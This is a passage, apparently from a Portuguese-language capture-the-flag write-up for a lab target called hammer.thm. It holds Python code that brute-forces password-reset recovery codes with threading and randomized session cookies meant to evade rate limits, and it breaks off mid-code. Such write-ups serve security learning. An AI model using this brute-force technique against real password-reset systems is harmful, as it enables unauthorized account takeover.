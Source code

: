 
O código foi desenvolvido em python 3.

```python

import random
import string
import time
import requests
from concurrent.futures import ThreadPoolExecutor
from threading import Event

# URL de recuperação de senha
url_reset_password = 'http://hammer.thm:1337/reset_password.php'

# Evento para sinalizar que o código correto foi encontrado
codigo_valido_encontrado = Event()

# Função para gerar um cookie aleatório
def gerar_cookie_aleatorio(tamanho=27):
    caracteres = string.ascii_letters + string.digits
    return ''.join(random.choice(caracteres) for _ in range(tamanho))

# Função para enviar a requisição inicial
def enviar_primeiro_cabecalho():
    headers_primeiro = {
        'Host': 'hammer.thm:1337',
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate, br',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Content-Length': '25',
        'Origin': 'http://hammer.thm:1337',
        'Connection': 'keep-alive',
        'Referer': 'http://hammer.thm:1337/reset_password.php',
        'Cookie': f'PHPSESSID={gerar_cookie_aleatorio()}',
        'Upgrade-Insecure-Requests': '1',
        'Priority': 'u=0, i'
    }
    data_primeiro = {'email': 'tester@hammer.thm'}
    response = requests.post(url_reset_password, headers=headers_primeiro, data=data_primeiro)
    print(f'Primeiro cabeçalho enviado. Status: {response.status_code}')
    return headers_primeiro['Cookie']

# Função para enviar a requisição com o código de recuperação
def enviar_segundo_cabecalho(cookie, recovery_code):
    if codigo_valido_encontrado.is_set():
        return

    headers_segundo = {
        'Host': 'hammer.thm:1337',
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate, br',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Content-Length': '24',
        'Origin': 'http://hammer.thm:1337',
        'Connection': 'keep-alive',
        'Referer': 'http://hammer.thm:1337/reset_password.php',
        'Cookie': cookie,
        'Upgrade-Insecure-Requests': '1',
```